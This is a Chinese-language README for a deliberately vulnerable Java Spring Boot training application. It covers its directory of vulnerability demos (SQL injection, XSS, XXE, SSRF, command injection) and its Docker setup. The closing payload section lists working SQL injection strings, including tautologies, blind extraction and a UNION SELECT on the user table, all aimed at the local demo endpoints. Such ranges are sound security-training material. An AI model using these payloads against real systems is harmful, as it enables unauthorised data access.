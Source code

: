 #### safedemo java靶场

#### 项目目录结构
.
├── docker         docker的集成环境（该项目的数据库文件也在这里）
├── log            项目的日志存放位置
├── pom.xml        maven项目表示
├── src
│   ├── main
│   │   ├── java
│   │   │   └── com
│   │   │       └── safe
│   │   │           └── demo
│   │   │               ├── SafeHoleApplication.java     springboot项目启动入口
│   │   │               ├── goodscode                    安全编码demo
│   │   │               ├── hole   
│   │   │               │   ├── config                   配置文件
│   │   │               │   ├── controller               漏洞demo
│   │   │               │   │   ├── CRLF.java
│   │   │               │   │   ├── CommandHole.java
│   │   │               │   │   ├── CookieSafe.java
│   │   │               │   │   ├── FileSource.java
│   │   │               │   │   ├── FindPasswd.java
│   │   │               │   │   ├── LogicHole.java
│   │   │               │   │   ├── Passwd.java
│   │   │               │   │   ├── RedirectHole.java
│   │   │               │   │   ├── ReflectHole.java
│   │   │               │   │   ├── RequestMethodHole.java
│   │   │               │   │   ├── SSRF.java
│   │   │               │   │   ├── SqlInjustion.java
│   │   │               │   │   ├── SwaggerRedirectController.java    swagger文档，通过这个可以在页面上测试demo
│   │   │               │   │   ├── UltraViresLoopholes.java          越权demo示例
│   │   │               │   │   ├── XPathHole.java
│   │   │               │   │   ├── XSS.java
│   │   │               │   │   ├── XXE.java
│   │   │               │   │   └── hibernate
│   │   │               │   │       ├── dao
│   │   │               │   │       │   ├── HibernateDao.java
│   │   │               │   │       │   └── HibernateDaoImpl.java
│   │   │               │   ├── exception                             全局异常处理器
│   │   │               │   ├── interceptor                           全局拦截器
│   │   │               │   ├── mapper
│   │   │               │   ├── pojo
│   │   │               │   ├── socket
│   │   │               │   └── utils
│   │   └── resources
│   │       ├── Generator.xml
│   │       ├── application-local.properties
│   │       ├── application-prod.properties
│   │       ├── application.properties
│   │       ├── esapi
│   │       │   ├── ESAPI.properties
│   │       │   └── esapi-java-logging.properties
│   │       ├── logback-spring.xml
│   │       ├── mapper
│   │       ├── mapperweb
│   │       ├── static
│   │       │   ├── csrf-poc.html        
│   │       │   ├── gettest.html
│   │       │   └── upload.html          文件上传页面
│   │       ├── templates
│   │       │   └── xss.html             xss展示页面
│   │       └── xml
│   │           ├── payload.xml          xxe payload
│   │           └── users.xml



#### 项目docker下启动方式
> 进入docker目录下执行
> docker-compose build .
> docker-compose up -d 

#### idea下启动方式
> 使用mysql数据库，导入数据库初始数据(test_jdbc.sql,目录结构有存放位置说明)
> springboot项目启动入口为@SpringBootApplication（即SafeHoleApplication.java文件）

#### 项目访问地址
> http://localhost:8081


#### payload
>  /mybatis_special_sql_inject?name=user where 1=if((ascii(substr(database() from 1 for 1))),1,0)
>  /mybatis_sql_inject/name=%' or 1=1-- q
>  /mybatis_sql_protect/name=%' or 1=1-- q
>
>  /hibernate_sql_inject/name=as' or 1=1 -- 1
>  /hibernate_sql_protect/name=as' or 1=1 -- 1
> 
>  /jdbc_sql_inject/?name=a' or 1=1 -- 1
>  /jdbc_sql_protect/name=a' or 1=1 -- 1
>  /prepare_sql_inject/?name=information_schema.tables where table=database() union select user.*,1,2,3,4,5,6,7,8,9,10,11,12,131,14,15,16 from user
>  
> 





